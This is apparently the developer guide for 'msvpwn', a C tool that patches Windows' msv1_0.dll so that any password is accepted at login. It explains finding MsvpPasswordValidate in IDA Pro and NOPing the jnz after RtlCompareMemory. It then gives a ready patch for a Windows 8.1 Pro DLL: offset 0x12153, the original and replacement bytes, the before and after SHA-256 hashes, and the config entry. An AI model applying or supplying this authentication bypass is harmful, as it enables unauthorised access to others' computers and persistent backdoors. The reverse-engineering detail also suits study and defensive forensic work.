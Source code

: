 # Project layout

All the code is in `src`. In `doc`, you will find the Markdown source for the manpage, and the manpage itself. To edit the manpage, you'll need
[ronn] (`gem install ronn` for the lazy) and then you can run `make regen_man`. As a bonus, if you run `make html` from the project's root, you
will get an HTML version of the manpage. I provide the generated manpage so that `ronn` is not a build dependency, it is only for devs.

In `src`, you'll find the following files:

* argparsing.c/h: If you like boring argument parsing, you'll be delighted by this.
* errorhandling.h: Two error-reporting macros
* hashing.c/h: Hash the DLL (SHA-256)
* patch.c/.h: Actual DLL patching
* config.h: List of signatures and associated patches, *à la* dwm
* msvpwn.c: Main program

# Development setup

I prefer to use `clang`, as the error messages are *way* more helpful and clear. On my machine, I have `-Weverything` in my `CFLAGS`, `CC` set to `clang` (in the Makefile).
For portability reasons, we can't have this in the repo though. It is important to note that `-Weverything` is **paranoid** and activates **every** warning that exists in `clang`, so it's
perfectly normal to have a few. At the time I'm writing, there are only 6 warnings, all about padding in the `PatchInfo` structure. No warning should be ignored.

# Adding signatures

## Preliminary work

Should you find a DLL which is not recognized by `msvpwn`, you will need to decompile it using appropriate tools, such as IDA Pro. Load the debug
symbols from the Microsoft database, and locate the function `MsvpPasswordValidate`. In it, you should find stuff like this:

```nasm
mov esi, 10h
lea rdx, [rbp+50h]  ; Source2
mov rcx, rbx    ; Source1
mov r8, rsi     ; Length
call    cs:__imp_RtlCompareMemory
cmp rax, rsi
jnz bad_password
```

Here, we compare the password hash that is stored in the SAM database with the hash that has been computed of the password given by the user (in fact, the 10 first characters).
According to [MSDN's definition of RtlCompareMemory]:

```c
SIZE_T RtlCompareMemory(
_In_  const VOID *Source1,
_In_  const VOID *Source2,
_In_  SIZE_T Length
);
```

> RtlCompareMemory returns the number of bytes in the two blocks that match. If all bytes match up to the specified Length value, the Length value is returned.

Therefore, if `cmp rax, rsi` doesn't set the zero flag, the password is incorrect, and hence the `jnz` will take us to the "bad password" branch. If we NOP it, any password will
be seen as correct. So, patch the DLL. Then, you will need the pre-patch SHA256 hash of the DLL, and the binary diff.

## Actual addition

In `src/config.h`, you will find an array of PatchInfo structures, which are the patches associated to a given signature. Let's take a look at the actual definition of PatchInfo:

```c
struct PatchInfo
{
    unsigned int sig_number;
    const char* patchedsig[MAX_SIG_NUMBER];
    const char* unpatchedsig[MAX_SIG_NUMBER];
    unsigned int patch_offset;
    size_t patch_size;
    unsigned const char previous[MAX_SIZE];
    unsigned const char patch[MAX_SIZE];
};
```

There might be a few DLL versions which have the same patch but different SHA-256 hashes, hence the `sig_number` field. It is the number of signatures corresponding to this patch, starting from 1.
`unpatchedsig` is an array of signatures of DLLs which correspond to this patch, before the patch happens. `patchedsig` is its counterpart. Now, `patch_offset` is the patch's starting offset,
`patch_size` is self-explanatory. `previous` are the `size` bytes at `patch_offset` before the patch happens, and `patch` after the patch happens (`patch` will most probably be only NOPs).

As an example, someone sent me his DLL (Windows 8.1 Pro). I reversed it, and with IDA Pro, I generated a diff file:

```text
This difference file has been created by IDA Pro

msv1_0.dll
00012153: 0F 90
00012154: 85 90
00012155: 08 90
00012156: 9E 90
00012157: 00 90
00012158: 00 90
```

We have computed the two hashes, and we can now add this to the array:

```c
{.sig_number = 1,
 .unpatchedsig = {"06a28d229540f728c60dea5e9baba90cace94aa8190a6a12d71783b7fe226243"},
 .patchedsig = {"42acddd1ce9201808773242eaa011e87086e9a23aa9d2c612d9ef6dc47359415"},
 .patch_offset = 0x12153,
 .patch_size = 0x6,
 .previous = {0x0f, 0x85, 0x08, 0x9e, 0x00, 0x00},
 .patch = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90}},
```

Note that we did this because there was no patch that fitted, but elsewise we would have incremented `sig_number`, and added the signatures to the `unpatchedsig` and `patchedsig` arrays.
Make sure you use designated inits, otherwise it would be a pain in the ass to read.

[ronn]: http://rtomayko.github.io/ronn/
[MSDN's definition of RtlCompareMemory]: http://msdn.microsoft.com/en-us/library/windows/hardware/ff561778(v=vs.85).aspx
